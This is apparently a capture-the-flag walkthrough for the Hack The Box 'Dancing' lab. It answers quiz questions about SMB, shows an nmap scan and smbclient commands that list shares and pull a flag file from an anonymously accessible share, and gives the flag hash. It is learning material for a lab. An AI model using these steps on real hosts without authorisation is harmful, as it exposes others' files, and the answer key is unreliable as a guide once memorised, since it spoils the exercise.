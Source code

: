 ```yaml
---
layout: post
title: "[HTB - Starting Point] Dancing"
date: 2022-10-12 09:00:00 +0800
categories: HTB
tags: [HTB, Starting Point]
---
```


## Task 1  
Q : What does the 3-letter acronym SMB stand for?  
A : Server Message Block  

## Task 2  
Q : What port does SMB use to operate at?  
A : 445  

## Task 3  
Q : What is the service name for port 445 that came up in our Nmap scan? 
``` text
[host] # nmap -sV --open <target_ip> -oA Dancing_init_scan
``` 
A : microsoft-ds  

## Task 4  
Q : What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?  
A : -l  

## Task 5  
Q : How many shares are there on Dancing?  
``` text
[host] # smbclient -L <target_ip>
```  
A : 4

## Task 6  
Q : What is the name of the share we are able to access in the end with a blank password?  
A : WorkShares  

## Task 7  
Q : What is the command we can use within the SMB shell to download the files we find?  
A : get  

## SUBMIT FLAG
Q : Submit root flag  
``` text
[host] # smbclient \\\\<target_ip>\\WorkShares
smb: \> ls
smb: \> cd James.P
smb: \> get flag.txt
smb: \> exit
[host] # cat flag.txt
```
A : 5f61c10dffbc77a704d76016a22f1664

